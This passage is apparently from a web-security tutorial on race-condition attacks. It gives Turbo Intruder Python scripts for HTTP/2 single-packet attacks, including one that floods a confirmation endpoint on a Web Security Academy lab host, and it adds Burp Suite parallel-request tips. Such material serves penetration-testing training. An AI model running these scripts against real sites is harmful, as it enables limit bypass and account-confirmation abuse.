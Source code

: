 ```python
        engine.queue(request2, gate='race1') 
    engine.openGate('race1') 
    engine.complete(timeout=60) 
def handleResponse(req, interesting): 
    table.add(req)

```
## Turbo Intruder - HTTP2 single-packet attack (Several endpoints)
In case you need to send a request to 1 endpoint and then multiple to other endpoints to trigger the RCE, you can change the race-single-packet-attack.py script with something like:
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # Hardcode the second request for the RC
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a9c00370490e77e837419c4005900d0.web-security-academy.net
Cookie: phpsessionid=MpDEOYRvaNT1OAm0OtAsmLZ91iDfISLU
Content-Length: 0

'''
    
    # For each attempt (20 in total) send 50 confirmation requests.
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'aUser' + currentAttempt
    
        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)
        
        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confirmationReq, gate=currentAttempt)
        
        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)

```
## Send group in parallel (Manual Testing)
It's also available in Repeater via the new 'Send group in parallel' option in Burp Suite.

* For limit-overrun you could just add the same request 50 times in the group.
* For connection warming, you could add at the beginning of the group some requests to some non static part of the web server.
* For delaying the process between processing one request and another in a 2 substates steps, you could add extra requests between both requests.
* For a multi-endpoint RC you could start sending the request that goes to the hidden state and then 50 requests just after it that exploits the hidden state.
